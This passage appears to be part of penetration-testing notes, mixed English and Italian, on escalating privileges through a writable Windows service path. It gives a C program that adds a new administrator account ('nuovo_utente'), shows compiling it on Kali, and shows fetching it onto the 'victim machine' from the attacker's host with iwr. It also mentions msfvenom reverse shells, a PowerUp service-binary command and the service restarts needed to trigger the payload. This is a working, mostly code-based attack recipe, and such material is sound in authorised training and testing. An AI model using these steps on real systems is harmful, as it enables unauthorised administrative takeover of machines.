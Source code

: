```bash
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

In this case, a file is created that allows you to add a user to the administrators group. Alternatively, you can upload a file generated by **msfvenom** to get a reverse-shell.

```bash
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user nuovo_utente password123! /add");
  i = system ("net localgroup administrators nuovo_utente /add");
  
  return 0;
}
```

This file is compiled on kali and passed to the victim machine:

```bash
x86_64-w64-mingw32-gcc Current.c -o Current.exe

python3 -m http.server 80

cd C:\\path_dove_caricare_il_file\..
iwr -uri http://$KALI_IP/Current.exe -Outfile Current.exe
```

#### Automated approach
##### PowerUp

```bash
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```

### 3. Riavvio del servizio

For the file to be executed, a **restart** of the service is required.

```bash
Start-Service Service_Name

# or

sc.exe stop Service_Name
sc.exe start Service_Name

# or

net stop Service_Name
net start Service_Name
```
